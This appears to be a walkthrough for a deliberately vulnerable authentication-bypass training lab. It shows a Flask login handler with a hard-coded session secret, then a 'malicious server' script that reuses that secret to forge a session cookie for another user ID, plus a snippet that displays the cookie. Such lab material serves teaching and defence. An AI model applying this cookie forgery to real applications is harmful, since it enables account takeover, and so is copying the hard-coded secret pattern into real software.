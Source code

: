 # KBID xxx - Auth-bypass-1

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The application suggests we login with admin/admin as username/password.

![](../../.gitbook/assets/nodejs/Auth-Bypass/1.png)

Once we login we see an API key.

![](../../.gitbook/assets/nodejs/Auth-Bypass/2.png)

Let's have a look at the source code:

```python

app.config.update(dict(
    SECRET_KEY= "e5ac-4ebf-03e5-9e29-a3f562e10b22",
    SESSION_COOKIE_HTTPONLY = True
))

@app.route("/login", methods=['GET', 'POST'])
def login():
    sqli  = Classes()
    if request.method == "POST":
        values = sqli.getUser(request.form['username'])
        if values:
            if values[0][2] == request.form['password']:
                session['userId'] = values[0][0]
                session['secret'] = app.config['SECRET_KEY']
                session['loggedin'] = True
                pref = sqli.getApi(values[0][0])
                api = pref[0][0]
                return render_template("loggedin.html", api = api)
        return render_template("index.html")
    else:
        pref = sqli.getApi(session['userId'])
        api = pref[0][0]
        return render_template("loggedin.html", api = api)
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response, session

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config.update(dict(
    SECRET_KEY= "e5ac-4ebf-03e5-9e29-a3f562e10b22",
    SESSION_COOKIE_HTTPONLY = False
))

app.config['DEBUG'] = True

@app.route("/")
def start():
    session['userId'] = 2 # CHANGING USER ID
    session['secret'] = app.config['SECRET_KEY']
    session['loggedin'] = True
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/nodejs/Auth-Bypass/3.png)

Now we can replace our original cookie with the tampered cookie.

![](../../.gitbook/assets/nodejs/Auth-Bypass/4.png)

Refresh the page:

![](../../.gitbook/assets/nodejs/Auth-Bypass/5.png)

## Additional sources

{% embed url="https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema" %}
